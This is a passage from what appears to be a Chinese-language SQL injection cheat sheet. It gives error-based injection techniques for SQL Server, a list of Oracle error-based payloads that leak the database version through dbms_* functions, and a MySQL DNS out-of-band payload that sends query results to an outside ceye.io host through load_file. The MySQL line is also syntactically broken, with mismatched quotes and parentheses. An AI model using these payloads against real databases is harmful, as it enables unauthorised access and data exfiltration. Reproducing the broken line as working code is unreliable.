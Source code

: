 **SQLServer:**

在@@version字符串和1比较时会将字符型转换为int型从而产生报错

或者使用convert(int,@@version)函数也有同样的效果

![](media/2019-12-31-04.png)

**oracle数据库：**

```
oracle 报错注入

select dbms_xmltranslations.extractxliff((select banner from sys.v_$version where rownum=1)) from dual  --爆数据库版本号

select dbms_xdb_version.checkin((select banner from sys.v_$version where rownum=1)) from dual

select dbms_xdb_version.makeversioned((select banner from sys.v_$version where rownum=1)) from dual

select dbms_xdb_version.uncheckout((select banner from sys.v_$version where rownum=1)) from dual 

select dbms_utility.sqlid_to_sqlhash((select banner from sys.v_$version where rownum=1)) from dual

select dbms_streams.get_information((select banner from sys.v_$version where rownum=1)) from dual

select dbms_xmlschema.generateschema((select banner from sys.v_$version where rownum=1)) from dual
```

 ### DNS回显注入

**Mysql：**

```
select load_file(concat('\\\\','select database()','.mjhang.ceye.io');
```
